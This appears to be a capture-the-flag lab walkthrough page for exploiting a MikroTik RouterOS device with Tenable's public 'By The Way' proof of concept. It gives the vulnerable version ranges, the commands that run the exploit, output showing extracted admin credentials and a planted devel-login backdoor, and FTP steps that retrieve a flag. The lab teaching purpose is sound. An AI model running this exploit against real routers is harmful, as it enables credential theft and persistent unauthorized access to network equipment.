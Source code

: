 +++
title = "Exploitation"
date = 2021-10-18T20:39:54-06:00
weight = 10
+++


After searching online, we find that the version of Mikrotik/RouterOS should be vulnerable to an exploit called "By The Way"
### Exploitation

The following versions of Router OS are vulnerable to "ByTheWay" exploit:
```
Longterm: 6.30.1 - 6.40.7
Stable: 6.29 - 6.42
Beta: 6.29rc1 - 6.43rc3
```

The Tenable security team has created a POC for the "By The Way" exploit, found here: <a href="https://github.com/tenable/routeros/tree/master/poc/bytheway">https://github.com/tenable/routeros/tree/master/poc/bytheway</a>

The repo is already cloned, and the exploit compiled.

1. Navigate to `~/routeros/poc/bytheway/build`
```
cd ~/routeros/poc/bytheway/build
```

2. Run the exploit against the Mikrotik
```
./btw -i 172.21.0.4
```

You should see the following:
```
$ ./btw -i 172.21.0.4

   ╔╗ ┬ ┬  ┌┬┐┬ ┬┌─┐  ╦ ╦┌─┐┬ ┬
   ╠╩╗└┬┘   │ ├─┤├┤   ║║║├─┤└┬┘
   ╚═╝ ┴    ┴ ┴ ┴└─┘  ╚╩╝┴ ┴ ┴

[+] Attempting to connect to 172.21.0.4:8291
[+] Extracting user.dat...
[+] Searching for administrator credentials
[+] Using credentials - admin:sHby8Gzi292ZsnS
[+] Creating /pckg/option on 172.21.0.4:8291
[+] Creating /flash/nova/etc/devel-login on 172.21.0.4:8291
[+] There's a light on
```

3. We see that the exploit has extracted credentials for the admin user:
```
admin:sHby8Gzi292ZsnS
```

4. Login to FTP  

```
$ ftp 172.21.0.4
```
Use the username and password to login.
```
Name (172.21.0.4:user): admin
331 Password required for admin
Password:
230 User admin logged in
Remote system type is UNIX.
```

Set the mode to Passive
```
ftp> passive
Passive mode on.
```

List the directory
```
ftp> ls
227 Entering Passive Mode (172,21,0,4,191,152).
150 Opening data connection
-rw-rw----   1 root     root           59 Oct 18 12:47 flag.txt
drwxrwx---   1 root     root         1024 Dec 31 18:00 flash
226 Transfer complete
```

Get the flag!
```
ftp> get flag.txt
local: flag.txt remote: flag.txt
227 Entering Passive Mode (172,21,0,4,208,214).
150 Opening ASCII mode data connection for /flag.txt (59 bytes)
226 ASCII transfer complete
59 bytes received in 0.00 secs (61.0999 kB/s)
```

Exit FTP
```
ftp> exit
221 Closing
```

5. Print the flag. Use this to solve the Hacker Challenge.
```
$ cat flag.txt
```

